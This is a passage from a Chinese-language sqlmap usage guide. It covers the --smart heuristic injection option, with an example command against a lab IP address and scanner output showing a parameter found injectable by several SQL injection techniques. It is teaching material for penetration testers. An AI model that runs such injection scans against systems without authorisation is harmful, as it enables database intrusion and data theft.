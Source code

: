 ### 启发式判断注入

参数：–smart

有时对目标非常多的URL进行测试，为节省时间，只对能够快速判断为注入的报错点进行注入，可以使用此参数。

例子：

```
$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?ca=17&user=foo&id=1" --batch --smart
[...]
[xx:xx:14] [INFO] testing if GET parameter 'ca' is dynamic
[xx:xx:14] [WARNING] GET parameter 'ca' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'ca' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'ca'
[xx:xx:14] [INFO] testing if GET parameter 'user' is dynamic
[xx:xx:14] [WARNING] GET parameter 'user' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'user' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'user'
[xx:xx:14] [INFO] testing if GET parameter 'id' is dynamic
[xx:xx:14] [INFO] confirming that GET parameter 'id' is dynamic
[xx:xx:14] [INFO] GET parameter 'id' is dynamic
[xx:xx:14] [WARNING] reflective value(s) found and filtering out
[xx:xx:14] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:14] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] Y
[xx:xx:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL inline queries'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[xx:xx:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL > 5.0.11 AND time-based blind' injectable 
[xx:xx:24] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[xx:xx:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other potential injection technique found
[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:24] [INFO] target URL appears to have 3 columns in query
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[...] 
```

### 初级用户向导参数
